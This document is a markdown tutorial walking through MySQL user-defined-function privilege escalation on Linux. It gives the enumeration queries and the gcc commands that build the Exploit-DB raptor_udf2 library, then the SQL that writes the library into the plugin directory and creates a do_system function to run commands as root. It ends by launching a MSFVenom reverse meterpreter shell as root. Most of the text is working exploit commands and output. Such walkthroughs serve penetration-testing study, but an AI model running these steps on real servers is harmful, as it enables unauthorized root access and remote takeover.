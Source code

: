 # MySQL User Defined Function Exploitation
## Exploit Enumeration
Is MySQL running as EUID `root` ?? If so, this exploit is used for privilege escalation and requires `File_priv` access for the current user. First, we check MySQL as running effective UID,
```
attacker@target:~# ps aux | grep mysq[l]d
root        916  0.0 10.8 885088 53580 ?        Sl   Jan03   0:10 /usr/sbin/mysqld
```
Perfect. Next, we check for file-write permissions in MySQL monitor console. To check this, try,
```
mysql> select File_priv from mysql.user where user = substring_index(user(), '@', 1) ;
+-----------+
| File_priv |
+-----------+
| Y         |
| Y         |
| Y         |
| Y         |
+-----------+
4 rows in set (0.00 sec)
```
As you can see, I have the permission denoted as 'Y'. 

Next, we need to see the MySQL services host OS and compiled variable names with the following two SQL queries,
```
mysql> select @@version_compile_os, @@version_compile_machine;select \
> @@version_compile_os, @@version_compile_machine;

+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.00 sec)

mysql> show variables like '%compile%';show variables like '%compile%';

+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | x86_64           |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+
2 rows in set (0.00 sec)
```
Now we need to find the plugin directory with the following SQL query,
```
mysql> select @@plugindir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)
```
Now, we know that the plugin must be located in `/usr/lib/mysql/plugin/`. This directory will most likely only be accessible (writeable at least) by root. What our goal is to use MySQL functions to write to this directory. Well, we know that we are using a 64bit version of MySQL from the output above, `x86_64`. This means we can obtain one online and hope that it is valid (and safe) OR simply comile our own as so,

## MySQL UDF Exploit (Exploit-DB)
We will be using this exploit "MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)" from [Exploit-DB.com](https://www.exploit-db.com/exploits/1518). Download the exploit to the `/tmp` or some other writeable directory, and compile it with,
```
user@target:/tmp$ gcc -g -c raptor_udf2.c -fPIC
```
This will create `raptor_udf2.o` which we will now use to compile the plugin as so,
```
user@target:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Now, we should have the file `raptor_udf2.so`. Let's use it with the MySQL monitor shell to exploit the damn thing.
```
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-2.05b$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
So, now, we can upload a reverse meterpreter shell, made with MSFVenom, to the target system into `/tmp`, named LinRevMet555, and execute it as root with,
```
mysql> select do_system('/tmp/LinRevMet5555');
```
And get a shell as root.
